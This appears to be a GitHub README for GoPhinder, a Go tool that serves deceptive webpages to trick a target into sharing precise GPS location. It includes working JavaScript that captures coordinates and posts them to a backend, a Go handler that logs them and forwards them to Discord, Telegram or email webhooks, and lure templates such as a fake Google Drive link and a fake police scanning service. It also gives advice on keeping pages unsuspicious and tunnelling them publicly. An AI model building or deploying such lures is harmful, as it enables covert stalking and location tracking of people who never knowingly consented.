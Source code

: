 <div align="center">
  <img src="./assets/logo.png" alt="GoPhinder" />
  <h1><strong>GoPhinder</strong></h1>
  <p>📍 Social Engineering Accurate Tracking of Devices 📍</p>
</div>

Inspired by [seeker](https://github.com/thewhiteh4t/seeker), this concept is much like phishing for credentials, but instead for precise GPS details. With the ease of capturing gps details via javascript, crafting an enticing website for a given target to grant location based permissions is one of many social engineering strategies.

# Usage
```bash
./gophinder -h
Usage of ./gophinder:
  -config string
    	Path to JSON config file for notifications (default "config.json")
  -h	Show usage
  -p int
    	Web Server port (default 8080)
  -t string
    	Specify a path to a template file (default "templates/index.html")
```

## Prerequisite
| Prerequisite | Version |
|--------------|---------|
| Go           |  <=1.22 |

## Install
```bash
git clone https://github.com/CharlesTheGreat77/GoPhinder
cd GoPhinder
go mod init gophinder
go mod tidy
go build -o gophinder run.go
./gophinder -h
```

## Output
```bash
[+] Server running on http://localhost:8080
┌──[Access Log]────────────[2025-05-01 22:56:55]
│ [+] Language     : en-US,en;q=0.9
│ [+] Referer      : http://localhost:8080/
│ [+] IP Address   : ::1
│ [+] User-Agent   : Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.5 Safari/605.1.15
└─────────────────────────────────────────────────────

┌──[Location Log]────────────[2025-05-01 23:04:24]
│ [+] Longitude    : xxxx
│ [+] Google Maps  : https://maps.google.com/?q=xxxx,xxxx
│ [+] IP Address   : ::1
│ [+] Latitude     : xxxx
└───────────────────────────────────────────────────────
```

## Additional output
Additional logging/output can be attained and pushed to stdout with ease.
An approach can look like such:
```golang
func HandleTrack(templatePath string, notifier notifier.Notifier) http.HandlerFunc {
	return func(w http.ResponseWriter, r *http.Request) {
		var data struct { // gets data form json response form webpage
      			Lat float64 `json:"lat"`
      			Lon float64 `json:"lon"`
		}
		if err := json.NewDecoder(r.Body).Decode(&data); err != nil {
			log.Printf("JSON decode error: %v", err)
			http.Error(w, "Bad Request", http.StatusBadRequest)
			return
		}

		ip := utils.GetIP(r) // get the ip
		fields := map[string]string{ // create map
			"IP Address":  ip, // can be anything
			"Latitude":    fmt.Sprintf("%.6f", data.Lat),
			"Longitude":   fmt.Sprintf("%.6f", data.Lon),
			"Google Maps": fmt.Sprintf("https://maps.google.com/?q=%.6f,%.6f", data.Lat, data.Lon),
		}
		if notifier != nil {
			// send to external webhooks etc.
			go notifier.Notify("Location Log", fields)
		}
		logging.LogBlock("Location Log", fields) // push to the log
		w.WriteHeader(http.StatusOK) // push 200 back to client
	}
}
```

# Templates
Default templates can be found in the *templates* directory
* Fake Google Drive Access Link
* Fake Emergency/Police Local Scanning Service
* Fake Private Event Finder

By default, the templates only gather location based information as seen below
```javascript
navigator.geolocation.getCurrentPosition(function(position) { // get exact location
    fetch(window.location.origin + "/track", { // send to backend
        method: "POST",
        headers: {
            "Content-Type": "application/json"
        },
        body: JSON.stringify({
            lat: position.coords.latitude,
            lon: position.coords.longitude
        })
    });
});
```

You can **add/customize** templates as needed, throw in a button click to execute, or do what you please!
The idea is to not have something so suspicious in terms of the context within the page.


## Notifications
To get automatic updates elsewhere, you can specify your *discord webhook, telegram token, and email credentials*. This can be done by editing the **config.json** file.
```json
{
  "discord": {
    "enabled": false,
    "webhook_url": "https://discord.com/api/webhooks/..."
  },
  "telegram": {
    "enabled": false,
    "bot_token": "123456:ABC-DEF1234ghIkl-zyx57W2v1u123ew11",
    "chat_id": "987654321"
  },
  "email": {
    "enabled": false,
    "smtp_host": "smtp.gmail.com",
    "smtp_port": 587,
    "username": "your@email.com",
    "password": "yourpassword",
    "to": "recipient@email.com"
  }
}
```

By **default**, the notification methods are set to false, but one can enable as many as needed.

## Screenshot
<img src="./assets/example.png" alt="GoPhinder" />

# tunneling
Tunneling like the classic way goes can be as followed:
```bash
# cloudflared must be installed prior ideally
cloudflared tunnel --url http://localhost:8080
```

# Contributions
Contributions are very welcomed for additional functionality, or templates!# GoPhinder
